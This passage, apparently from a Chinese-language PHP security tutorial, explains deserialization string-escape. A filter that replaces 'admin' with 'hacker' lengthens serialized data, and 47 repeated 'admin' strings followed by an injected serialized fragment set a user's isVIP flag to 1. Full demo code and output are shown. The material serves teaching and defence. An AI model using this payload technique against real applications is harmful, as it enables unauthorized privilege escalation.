 我们知道，每次过滤的时候，`admin` 会变为：`hacker` 长度加了1，所以我们传参时可以重复47次 `admin`。这样我们的参数就会增加47长度，再减去逃逸的47长度字符串，长度就合适了。

可控变量修改如下：

```php
adminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadmin";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;}
```

完整的代码为：

```php
<?php
class user
{
    public $username;
    public $password;
    public $isVIP;

    public function __construct($u, $p)
    {
        $this->username = $u;
        $this->password = $p;
        $this->isVIP = 0;
    }
}

function filter($obj) {
    return preg_replace("/admin/","hacker",$obj);
}
$a = new user('adminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadmin";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;}', "123456");
$a = serialize($a);
echo $a.PHP_EOL;
$a = filter($a);
echo $a;
print_r(unserialize($a));
```

输出：

```php
O:4:"user":3:{s:8:"username";s:282:"adminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadmin";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;}";s:8:"password";s:6:"123456";s:5:"isVIP";i:0;}
O:4:"user":3:{s:8:"username";s:282:"hackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhacker";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;}";s:8:"password";s:6:"123456";s:5:"isVIP";i:0;}user Object
(
    [username] => hackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhacker
    [password] => 123456
    [isVIP] => 1
)
```
